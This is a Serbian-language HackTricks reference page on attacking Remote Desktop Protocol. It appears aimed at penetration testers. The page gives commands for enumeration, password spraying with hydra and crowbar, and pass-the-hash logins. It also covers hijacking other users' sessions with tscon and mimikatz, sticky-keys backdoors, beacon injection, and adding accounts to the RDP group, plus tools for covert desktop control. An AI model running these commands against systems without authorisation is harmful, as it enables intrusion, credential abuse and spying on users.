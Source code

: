 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i penetraciono testiranje**. Pokrenite potpuni pentest sa bilo kog mesta uz 20+ alata i funkcija koje se kreću od rekognosciranja do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Osnovne informacije

Razvijen od strane Microsoft-a, **Remote Desktop Protocol** (**RDP**) je dizajniran da omogući grafičku interfejs vezu između računara preko mreže. Da bi se uspostavila takva veza, korisnik koristi **RDP** klijentski softver, dok je istovremeno potrebno da udaljeni računar koristi **RDP** serverski softver. Ova postavka omogućava neometano upravljanje i pristup desktop okruženju udaljenog računara, suštinski donoseći njegov interfejs na korisnikov lokalni uređaj.

**Podrazumevani port:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Enumeracija

### Automatski

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Proverava dostupnu enkripciju i DoS ranjivost (bez izazivanja DoS na uslugu) i dobija NTLM Windows informacije (verzije).

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Budite oprezni, mogli biste zaključati naloge**

### **Password Spraying**

**Budite oprezni, mogli biste zaključati naloge**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Povezivanje sa poznatim akreditivima/hash-om
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Proverite poznate akreditive protiv RDP usluga

rdp\_check.py iz impacket-a vam omogućava da proverite da li su neki akreditivi validni za RDP uslugu:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i pentesting**. Pokrenite potpuni pentest sa bilo kog mesta uz 20+ alata i funkcija koje se kreću od rekognicije do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Napadi**

### Krađa sesija

Sa **SYSTEM dozvolama** možete pristupiti bilo kojoj **otvorenoj RDP sesiji bilo kog korisnika** bez potrebe da znate lozinku vlasnika.

**Dobijte otvorene sesije:**
```
query user
```
**Pristup odabranoj sesiji**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Sada ćete biti unutar odabrane RDP sesije i moraćete da se pretvarate da ste korisnik koristeći samo Windows alate i funkcije.

**Važno**: Kada pristupite aktivnim RDP sesijama, izbacujete korisnika koji je koristio sesiju.

Možete dobiti lozinke iz procesa tako što ćete ga iskopirati, ali je ova metoda mnogo brža i omogućava vam da interagujete sa virtuelnim radnim površinama korisnika (lozinke u notepadu bez čuvanja na disku, druge RDP sesije otvorene na drugim mašinama...)

#### **Mimikatz**

Takođe možete koristiti mimikatz za ovo:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Kombinovanjem ove tehnike sa **stickykeys** ili **utilman**, moći ćete da pristupite administrativnom CMD-u i bilo kojoj RDP sesiji u bilo kojem trenutku.

Možete pretraživati RDP-ove koji su već backdoor-ovani jednom od ovih tehnika sa: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

Ako se neko iz druge domene ili sa **boljim privilegijama prijavi putem RDP-a** na PC gde **ste vi Admin**, možete **ubaciti** svoj beacon u njegov **RDP sesijski proces** i delovati kao on:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** je post-exploatacioni okvir kreiran u Powershell-u, dizajniran prvenstveno za automatizaciju **Shadow** napada na Microsoft Windows računarima. Ova ranjivost (navedena kao funkcija od strane Microsoft-a) omogućava udaljenom napadaču da **vidi desktop svoje žrtve bez njenog pristanka**, pa čak i da njime upravlja na zahtev, koristeći alate koji su izvorni deo samog operativnog sistema.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Kontrola miša i tastature na automatizovan način iz komandne linije
* Kontrola međuspremnika na automatizovan način iz komandne linije
* Pokretanje SOCKS proxy-a sa klijenta koji usmerava mrežnu komunikaciju ka meti putem RDP-a
* Izvršavanje proizvoljnih SHELL i PowerShell komandi na meti bez učitavanja fajlova
* Učitavanje i preuzimanje fajlova sa/na metu čak i kada su prenosi fajlova onemogućeni na meti

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Odmah dostupna postavka za procenu ranjivosti i pentesting**. Izvršite potpuni pentest sa bilo kog mesta uz 20+ alata i funkcija koje se kreću od rekognosciranja do izveštavanja. Ne zamenjujemo pentestere - razvijamo prilagođene alate, module za detekciju i eksploataciju kako bismo im vratili malo vremena da dublje istraže, otvore shell-ove i zabave se.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Učite i vežbajte AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Učite i vežbajte GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Podržite HackTricks</summary>

* Proverite [**planove pretplate**](https://github.com/sponsors/carlospolop)!
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili **pratite** nas na **Twitter-u** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podelite hakerske trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
{% endhint %}
